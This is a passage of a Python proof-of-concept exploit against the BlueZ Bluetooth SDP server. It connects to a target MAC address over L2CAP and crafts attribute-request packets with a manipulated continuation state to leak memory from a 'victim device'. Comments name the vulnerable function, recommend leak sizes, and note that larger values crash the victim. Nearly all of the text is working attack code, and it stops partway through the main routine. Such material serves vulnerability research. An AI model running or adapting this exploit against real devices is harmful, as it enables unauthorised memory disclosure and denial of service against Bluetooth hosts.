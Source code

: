 ```python
#	</attribute>
# [...]
#	<attribute id="0x0102">
#		<text value="BlueZ" />
#	</attribute>
# please replace these values if they should not match your victim device
# the service from which we want to request attributes (GAP)
SERVICE_REC_HANDLE = 0x00010001
# the attribute we want to request (in this case, the String "BlueZ")
SERVICE_ATTR_ID = 0x0102
target = args['TARGET']     # TARGET Mac address
mtu = 65535                 # MTU to use
context.endian = 'big'
# this is how many bytes we want to leak
# you can set it up to 0x7FFF
# if you set it to 0x8000 or higher, the victim will crash
# I have experienced that with slow Bluetooth hardware, large leaks can
# sometimes result in timeouts so I don't recommend to set it larger than
# 0x0FFF for this PoC
LEAK_BYTES = 0x0FFF
# this function crafts a SDP attribute request packet
# handle: the service we want to query
# max_rsp_size: how many bytes we are willing to accept in a single response packet
# attr: the attribute(s) we want to query
# cstate: the cstate to send
def sdppacket(handle, max_rsp_size, attr, cstate):
    # craft packet to reach vulnerable code
    pkt = ""
    pkt += p32(handle)      # handle
    pkt += p16(max_rsp_size)# max_rsp_size
    # contains an attribute sequence with the length describing the attributes being 16 bit long
    # see extract_des function in line 113 of src/sdpd-request.c
    pkt += p8(0x36)         # DTD (seq_type SDP_SEQ16)
    pkt += p16(len(attr))   # seq size, 16 bit according to DTD
    # attributes
    pkt += attr
    # append cstate
    if cstate:
        pkt += p8(len(cstate))
        pkt += cstate
    else:
        pkt += p8(0x00) # no cstate
    pduhdr = ""
    pduhdr += p8(0x04) # pdu_id 0x04 -> SVC_ATTR_REQ (we want to send an attribute request)
    pduhdr += p16(0x0000) # TID, doesn't matter
    pduhdr += p16(len(pkt)) # plen, length of body
    return pduhdr + pkt
if __name__ == '__main__':
    log.info('Creating L2CAP socket')
    sock = bluetooth.BluetoothSocket(bluetooth.L2CAP)
    bluetooth.set_l2cap_mtu(sock, mtu)
    log.info('Connecting to target')
    sock.connect((target, 0x0001)) # connect to target on PSM 0x0001 (SDP)
    log.info('Sending packet to prepare serverside cstate')
    # the attribute we want to read
    attr = p8(0x09) # length of ATTR_ID (SDP_UINT16 - see lib/sdp.h)
    attr += p16(SERVICE_ATTR_ID)
    # craft the packet
    sdp = sdppacket(
        SERVICE_REC_HANDLE, # the service handle
        101,                # max size of the response we are willing to accept
        attr*10,            # just request the same attribute 10 times, response will be 102 bytes large
```